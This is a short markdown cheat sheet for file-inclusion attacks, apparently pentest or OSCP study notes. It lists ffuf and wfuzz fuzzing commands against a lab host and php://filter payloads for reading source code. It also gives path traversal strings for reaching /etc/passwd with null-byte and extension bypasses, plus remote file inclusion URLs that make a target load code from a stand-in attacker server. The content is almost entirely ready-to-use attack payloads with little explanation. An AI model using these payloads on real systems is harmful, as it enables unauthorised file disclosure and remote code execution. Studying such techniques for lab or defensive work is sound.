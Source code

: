 ## LFI

### Ffuf

	ffuf -request [request file] -request-proto http -w /usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt -fw [word to filter out]

### Wfuzz

	wfuzz -c --hw [half word] -u http://dev.team.thm/script.php?page=FUZZ -w /usr/share/wordlists/seclists/Fuzzing/LFI/LFI-gracefulsecurity-linux.txt -f wfuzz_output

#### Bypassing php-execution

	http://example.com/index.php?page=php://filter/convert.base64-encode/resource=index

#### Get file base64 encoded

	php://filter/convert.base64-encode/resource=[file]

#### Bypassing the added `.php` and other extra file-endings

	http://example.com/page=../../../../../../etc/passwd
	http://example.com/page=..././..././..././..././..././..././etc/passwd
	http://example.com/page=..//..//..//..//..//../etc/passwd
	http://example.com/page=..///..///..///..///..///../etc/passwd
	
	http://example.com/page=../../../../../../etc/passwd%00
	http://example.com/page=../../../../../../etc/passwd?

#### Folder that always exist

	/etc/hosts
	
	/etc/resolv.conf

#### add `%00jpg` to end of files

	/etc/passwd%00jpg

#### URL encode
	. -> %2E
	/ -> %2F

#### Refer this for more information

- https://sushant747.gitbooks.io/total-oscp-guide/local_file_inclusion.html
- https://highon.coffee/blog/lfi-cheat-sheet/

## RFI

Example:

	http://exampe.com/index.php?page=http://attackerserver.com/evil.txt
	http://exampe.com/index.php?page=\\attackerserver.com\evil.txt